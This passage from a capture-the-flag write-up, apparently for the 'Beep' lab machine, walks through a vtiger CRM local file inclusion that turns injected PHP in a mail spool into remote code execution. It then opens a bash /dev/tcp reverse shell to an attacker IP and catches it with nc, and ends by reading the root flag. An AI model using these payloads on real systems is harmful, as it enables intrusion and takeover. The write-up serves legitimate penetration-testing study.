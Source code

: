 Afterwards we can check if the email was successfully sent and received:

```
GET /vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../var/mail/asterisk%00
```

With the LFI, we can leak the email that we have just sent. This also means, that our PHP code now gets executed!

```
From babbadeckl@pwn.com  Wed Jan 13 22:48:18 2021
Return-Path: <babbadeckl@pwn.com>
X-Original-To: asterisk@localhost
Delivered-To: asterisk@localhost.localdomain
Received: from babbadeckl (unknown [10.10.14.50])
	by beep.localdomain (Postfix) with ESMTP id 86A1ED92FF
	for <asterisk@localhost>; Wed, 13 Jan 2021 22:47:17 +0200 (EET)
Subject: RCE
Message-Id: <20210113204725.86A1ED92FF@beep.localdomain>
Date: Wed, 13 Jan 2021 22:47:17 +0200 (EET)
From: babbadeckl@pwn.com
To: undisclosed-recipients:;
```

Now when we append our malicious parameter `babbadeckl`, that we included in the injected PHP code, we have RCE:

```
GET /vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../var/mail/asterisk%00&babbadeckl=id


Date: Wed, 13 Jan 2021 22:47:17 +0200 (EET)
From: babbadeckl@pwn.com
To: undisclosed-recipients:;

uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
```

Let's spawn a reverse shell!

```
module_name=../../../../../../../../var/mail/asterisk%00&babbadeckl=bash+-i+>%26+/dev/tcp/10.10.14.50/4444+0>%261
```

And we get a shell! Now simply follow the steps from above to obtain root privileges (sudo nmap).

```
└──╼ $ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.50] from (UNKNOWN) [10.129.1.226] 47868
bash: no job control in this shell
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
```


## Post Exploitation

We can now obtain the root flag:

```
[root@beep ~]# cat root.txt
78284bce7c9d0b21378ac5bd69ee89c9
```
